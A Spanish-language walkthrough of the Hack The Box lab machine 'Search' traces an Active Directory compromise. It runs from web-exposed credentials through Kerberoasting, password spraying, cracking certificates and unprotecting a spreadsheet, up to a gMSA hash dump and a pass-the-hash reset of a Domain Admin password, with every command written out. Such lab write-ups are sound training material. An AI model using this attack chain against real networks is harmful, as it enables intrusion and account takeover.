

# Search

`Search` es una máquina Windows de dificultad alta que se centra en las técnicas de enumeración y explotación de Active Directory. Se obtiene un punto de apoyo al encontrar credenciales expuestas en una página web, enumerar usuarios de AD, ejecutar un ataque `Kerberoast` para obtener un hash descifrable para una cuenta de servicio y rociar la contraseña contra un subconjunto de las cuentas descubiertas, obteniendo acceso a un recurso compartido `SMB` donde se encuentra un archivo XLSX protegido que contiene datos de usuario. Desproteger el archivo conduce a un segundo conjunto de credenciales, que da acceso a otro recurso compartido donde se pueden descargar certificados `PKCS#12`.

Después de importar los certificados a un navegador web, se puede utilizar `Windows PowerShell Web Access` para obtener un shell interactivo en el sistema. Debido a las `ACL` mal configuradas, el usuario puede recuperar la contraseña de una cuenta de servicio administrada por un grupo que puede cambiar la contraseña de un usuario administrativo, lo que resulta en un acceso con privilegios elevados al sistema a través de `wmiexec` o `psexec`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Search**.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.129 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389,49667,49675,49676,49699,49712,49736 10.10.11.129 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio que nos enfrentamos, el nombre del equipo y que tipo de máquina nos enfrentamos.

```bash
nxc smb 10.10.11.129

ldapsearch -x -H ldap://10.10.11.129 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep search.htb
```

<figure><figcaption></figcaption></figure>

## Web enumeration

A través de la herramienta de **whatweb** verificaremos las tecnologías y frameworks que se utilizan en la página web. Comprobamos que se trata de un IIS.

```bash
whatweb http://search.htb
```

<figure><figcaption></figcaption></figure>

Probando de acceder a [http://search.htb](http://search.htb) verificamos la siguiente página web.

<figure><figcaption></figcaption></figure>

Entre las imágenes que aparecen en los sliders, comprobamos una imagen algo inusualnla cual al parecer contiene una contraseña de un usuario nombrado como "Hope Sharp".

<figure><figcaption></figcaption></figure>

Al parecer aparece una contraseña mencionada como: _IsolationIsKey?_

<figure><figcaption></figcaption></figure>

Guardaremos en un archivo "users.txt" el nombre encontrado **Hope Sharp** y a través de la herramienta **username-anarchy** crearemos posibles nombres de usuarios y los guardaremos en el archivo "generated-unames.txt".


```bash
catnp users.txt

username-anarchy --input-file users.txt --select-format first,last,flast,first.last,firstl > generated-unames.txt

catnp generated-unames.txt
```


<figure><figcaption></figcaption></figure>

Procederemos a validar a través de **netexec** si alguno de estos usuarios generados la contraseña encontrada es válida. Verificamos que efectivamente, para el usuario "**hope.sharp**" su contraseña es la encontrada en la imagen de la página web.


```bash
nxc smb 10.10.11.129 -u generated-unames.txt -p 'IsolationIsKey?' --continue-on-success
```


<figure><figcaption></figcaption></figure>

## RPC Enumeration

Procederemos a enumerar el dominio a través del protocolo RPC con la herramienta de [**rpcenum**](https://github.com/s4vitar/rpcenum).

Comprobamos que hemos podido enumerar toda la lista de usuarios del dominio, nos guardaremos los usuarios en un archivo "users.txt".

```bash
rpcenum -e All -i 10.10.11.129 -u 'hope.sharp' -p 'IsolationIsKey?'
```

<figure><figcaption></figcaption></figure>

## AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Verificaremos que disponemos de un total de 105 usuarios del dominio, debido que disponemos de una lista potencial de usuarios del dominio nos plantareamos en realizar un **AS-REP Roast Attack** para intentar obtener un TGT (Ticket Granting Ticket) para obtener el hash de un usuario que disponga del (DONT\_REQ\_PREAUTH) de Kerberos y posteriormente crackear su hash de manera offline.

Verificamos que no encontramos ningún usuario con esa condición.

```bash
catnp users.txt | sort -u | wc -l

impacket-GetNPUsers -no-pass -usersfile users.txt search.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump)

Con **ldapdomaindump** dumpearemos toda la información del LDAP a través del usuario y contraseña que disponemos. Nos generará los resultados en distintos formatos.

```bash
ldapdomaindump -u 'search.htb\Hope.Sharp' -p 'IsolationIsKey?' 10.10.11.129 -o ldap
```

Revisando el archivo "domains\_groups.html" verificamos que los miembros del grupo "ITSec" forman parte del grupo "Remote Management Users".

<figure><figcaption></figcaption></figure>

El grupo de "ITSec" dispone de varios grupos al parecer dividido por ciudades.

<figure><figcaption></figcaption></figure>

Revisando los miembros de los subgrupos del grupo "ITSec" verificamos usuarios que como son miembros del grupo principal, disponen de permisos de "Remote Management Users".

También verificamos que existen dos usuarios Administradores del dominio, pero el único activo es el de "Tristan.Davies".

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Realizaremos una enumeración con **BloodHound** a través de **bloodhound-python.**


```bash
bloodhound-python -c all -u 'hope.sharp' -p 'IsolationIsKey?' -d search.htb -ns 10.10.11.129
```


<figure><figcaption></figcaption></figure>

A medida de que vayamos encontrando usuarios que disponamos de sus credenciales, iremos marcándolos como "Owned" para posteriormente intentar buscar posibles vectores para escalar nuestros privilegios.

## Kerberoasting Attack (GetUserSPNs)

Dado que tenemos credenciales de un usuario válido del dominio, procederemos a realizar un **Kerberoasting Attack** para intentar obtener un TGS (Ticket Granting Service) para posteriormente crackear de manera offline el hash obtenido.

Verificamos que obtenemos un TGS del usuario "web\_svc".

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.129 search.htb/hope.sharp -request 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Procederemos a crackear el hash del TGS obtenido. Verificamos que hemos logrado crackear el hash y obtener la contraseña en texto plano.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><figcaption></figcaption></figure>

Verificaremos que las credenciales son válidas para el usuario **web\_svc** a través de **netexec**.

```bash
nxc smb 10.10.11.129 -u 'web_svc' -p '@3ONEmillionbaby'
```

<figure><figcaption></figcaption></figure>

## SMB Password Spray Attack (Netexec)

Procederemos a realizar un **Password Spray Attack** con la contraseña validada anteriormente sobre la lista de usuarios del dominio que disponemos para verificar si la contraseña es reutilizada en algún otro usuario.

Verificamos que efectivamente el usuario (edgar.jacobs) dispone de la misma contraseña.

```bash
nxc smb 10.10.11.129 -u users.txt -p '@3ONEmillionbaby' --continue-on-success
```

<figure><figcaption></figcaption></figure>

Nos guardaremos en el archivo "credentials.txt" todas las credenciales de los usuarios válidos que disponemos.

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

A través de la herramienta de **netexec** y el módulo de (spider\_plus), nos crearemos un esquema en formato JSON de la estructura del SMB para verificar archivos interesantes, directorios, etc.

```bash
netexec smb 10.10.11.129 -u 'Edgar.Jacobs' -p '@3ONEmillionbaby' -M spider_plus

catnp /tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json | jq
```

<figure><figcaption></figcaption></figure>

Verificando el archivo JSON generado con **netexec**, comprobamos que hay un Excel interesante nombrado "Phishing\_Attempt.xlsx" en el escritorio del usuario "edgar.jacobs" el cual disponemos sus credenciales de acceso.

<figure><figcaption></figcaption></figure>

A través de la herramienta de **smbmap** procederemos a descargarnos el archivo mencionado.


```bash
smbmap -H 10.10.11.129 --no-banner -u 'Edgar.Jacobs' -p '@3ONEmillionbaby' --download 'RedirectedFolders$/edgar.jacobs/Desktop/Phishing_Attempt.xlsx'

mv 10.10.11.129-RedirectedFolders_edgar.jacobs_Desktop_Phishing_Attempt.xlsx Phishing_Attempt.xlsx

ls -l Phishing_Attempt.xlsx
```


<figure><figcaption></figcaption></figure>

## Initial Access

### Unprotecting password-protected Excel (Remove Protection)

Abriendo el archivo (.xlsx) encontrado en el SMB, verificamos que se trata de un archivo donde se disponen de nombres de usuarios que al parecer han sufrido un ataque de phishing.

También comprobamos que la columna "C" aparece protegida, no la podemos visualizar.

<figure><figcaption></figcaption></figure>

Debido que esto a final de cuentas este archivo es un comprimido, procederemos a descromprimirlo para revisar la estructura de este mismo.

```bash
unzip Phishing_Attempt.xlsx

tree
```

<figure><figcaption></figcaption></figure>

Revisando el archivo "sheet2.xml" verificamos que es el que contiene el campo protegido, ya que contiene un apartado mencionado como "sheetProtection". Procederemos a editar el archivo en cuestión.

```bash
cat sheet2.xml

nvim sheet2.xml
```

<figure><figcaption></figcaption></figure>

Procederemos a eliminar el contenido a partir de la etiqueta "\<sheetProtecion>" hasta su cierre de la etiqueta. Guardaremos nuevamente el archivo.

<figure><figcaption></figcaption></figure>

Volveremos al directorio principal donde están todos los archivos, procederemos a volver a comprimir todos los archivos a uno nuevo llamado "Document.xlsx".

```bash
ls

rm Phishing_Attempt.xlsx

zip Document.xlsx -r .

ls -l Document.xlsx
```

<figure><figcaption></figcaption></figure>

Abriremos este nuevo comprimido (Document.xlsx) y verificaremos que hemos podido quitar la protección del Excel y podemos visualizar el contenido, el cual se trata de contraseñas.

Guardaremos estas contraseñas en un archivo llamado "passwords.txt" y los nombres de los usuarios en "phishing\_users.txt".

<figure><figcaption></figcaption></figure>

### SMB Password Spray Attack (Netexec)

Procederemos a realizar un **Password Spray Attack** para validar si de la lista de usuarios y contraseñas son válidas o no. En este caso, no realizaremos fuerza bruta, por lo que irá probando de manera paralela el usuario y contraseña.

Verificamos que encontramos unas nuevas credenciales del usuario "Sierra.Frye".


```bash
nxc smb 10.10.11.129 -u phishing_users.txt -p passwords.txt --no-bruteforce --continue-on-success
```


<figure><figcaption></figcaption></figure>

Procederemos a realizar una enumeración a través de SMB sobre la carpeta del usuario, y verificamos que hemos encontrado la flag **user.txt**.


```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/user.txt'

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_user.txt user.txt

catnp user.txt
```


<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Playing with FFX certificates

Revisando los recursos copartidos del nuevo usuario "Sierra.Frye" revisamos que en la carpeta de "Downloads" hay una carpeta llamado Backups" que dispone de 2 archivos PFX que se tratan de certificados de navegador.


```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye/Downloads'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye/Downloads/Backups'
```


<figure><figcaption></figcaption></figure>

Procederemos a descargar estos dos archivos a través de **smbmap** y a renombrarlos.


```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/Downloads/Backups/search-RESEARCH-CA.p12'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/Downloads/Backups/staff.pfx'

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_Downloads_Backups_search-RESEARCH-CA.p12 search-RESEARCH-CA.p12

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_Downloads_Backups_staff.pfx staff.pfx
```


<figure><figcaption></figcaption></figure>

Si probamos de importar estos certificados a nuestro navegador, nos pide credenciales.

<figure><figcaption></figcaption></figure>

Debido que estos archivos disponen de credenciales que no disponemos, procederemos a través de **pfx2john** de guardarnos el hash de las contraseñas de estos archivos.

```bash
pfx2john search-RESEARCH-CA.p12 > hash.txt

pfx2john staff.pfx > hash2.txt
```

Procederemos a crackear estos hashes y verificamos que hemos podido lograr crackear el hash y obtener las contraseñas en texto plano.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash2.txt
```

<figure><figcaption></figcaption></figure>

Importaremos estos certificados en nuestro navegador.

<figure><figcaption></figcaption></figure>

Enumerando nuevamente la página web en busca de directorios, nos encontramos que hay un directorio llamado "staff" que nos devuelve un código 403 Forbidden.


```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://search.htb/FUZZ
```


<figure><figcaption></figcaption></figure>

Probando de acceder a través de HTTPS a[ https://search.htb/staff](https://search.htb/staff) comprobamos que nos requiere los certificados que hemos importado anteriormente.

<figure><figcaption></figcaption></figure>

### Gaining access to Windows PowerShell Web Access

Verificamos que se nos carga la siguiente página en la cual parece una página de acceso que otorga un entorno web de PowerShell sobre un equipo.

<figure><figcaption></figcaption></figure>

Probaremos de conectarnos a través de estas credenciales del usuario "Sierra.Frye" que anteriormente habíamos comprobado que formaba parte del grupo "ITSec" y los miembros de dicho grupo forman parte del grupo "Remote Management Users".

Accederemos al DC que tiene de nombre "RESEARCH" tal y como comprobamos en la enumeración inicial.

<figure><figcaption></figcaption></figure>

Verificamos que ganamos acceso a una PowerShell Web sobre el DC con el usuario "Sierra.Frye".

<figure><figcaption></figcaption></figure>

### Abusing ReadGMSAPassword (gMSADumper)

Revisando maneras de escalar nuestros privilegios, tal y como hemos ido seleccionando a los usuarios que disponíamos de sus credenciales como "Owned" en BloodHound, ingresando a "Shortest Path Domain Admins from Owned Principals" encontramos una vía potencial para convertirnos en Domain Admins.

El usuario que disponemos (sierra.frye@search.htb) forma parte del grupo "birmingham-itsec@search.htb" , los miembros de dicho grupo a la vez forman parte del grupo "itsec@search.htb" que tienen privilegios de **ReadGMSAPassword** sobre "bir-adfs-gmsa$@search.htb".

<figure><figcaption></figcaption></figure>

Los privilegios de **ReadGMSAPassword** permiten a usuarios o grupos recuperar la contraseña de una **Group Managed Service Account (gMSA)** en un entorno de Active Directory. Estos privilegios se asignan para que ciertos servicios, servidores o aplicaciones puedan autenticarse automáticamente utilizando la cuenta sin necesidad de gestión manual de contraseñas. Sin embargo, si son otorgados a usuarios no autorizados, podrían permitir el acceso a servicios críticos o realizar ataques de escalación de privilegios.

<figure><figcaption></figcaption></figure>

Procederemos a recuperar la contraseña del gMSA a través de la herramienta **gMSADumper.py** con las credenciales del usuario "Sierra.Frye".

Una vez obtengamos el hash NTLM del gMSA, validaremos con **netexec** de que es válido.


```bash
python3 /opt/gMSADumper/gMSADumper.py -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -l 10.10.11.129 -d 'search.htb'

netexec smb 10.10.11.129 -u 'BIR-ADFS-GMSA$' -H 'e1e9fd9e46d0d747e1595167eedcec0f
```


<figure><figcaption></figcaption></figure>

## Abusing GenericAll privileges (Change user credentials by Pass The Hash with pth-net) &#x20;

Revisando nuevamente en **BloodHound**, verificamos que a través del gMSA que disponemos su hash NTLM (BIR-ADFS-GMSA$@search.htb) dispone de privilegios de **GenericAll** sobre el usuario (tristan.davies@search.htb) que si bien recordamos es un usuario Administrador del dominio.

<figure><figcaption></figcaption></figure>

A través de estos privilegios (**GenericAll**) podemos forzar a realizar el cambio de contraseña del usuario (tristan.davies@search.htb).

En este caso, utilizaremos la herramienta de **pth-net** para realizar un **PassTheHash** con el hash NTLM obtenido del ataque anterior.

<figure><figcaption></figcaption></figure>

Realizaremos el cambio de la contraseña haciendo **PassTheHash** a través de **pth-net** y validaremos que se ha modificado correctamente las credenciales del Domain Admin, también verificamos que nos aparece como **Pwn3d**.


```bash
pth-net rpc password "TRISTAN.DAVIES" "Gzzcoo123" -U "search.htb"/'BIR-ADFS-GMSA$'%"ffffffffffffffffffffffffffffffff":"e1e9fd9e46d0d747e1595167eedcec0f" -S 10.10.11.129

netexec smb 10.10.11.129 -u 'Tristan.Davies' -p 'Gzzcoo123'
```


<figure><figcaption></figcaption></figure>

Accederemos a través de **wmiexec.py** al Domain controller con las credenciales del Domain Admin y comprobaremos la flag de **root.txt**.

```bash
wmiexec.py search.htb/Tristan.Davies@10.10.11.129
```

<figure><figcaption></figcaption></figure>
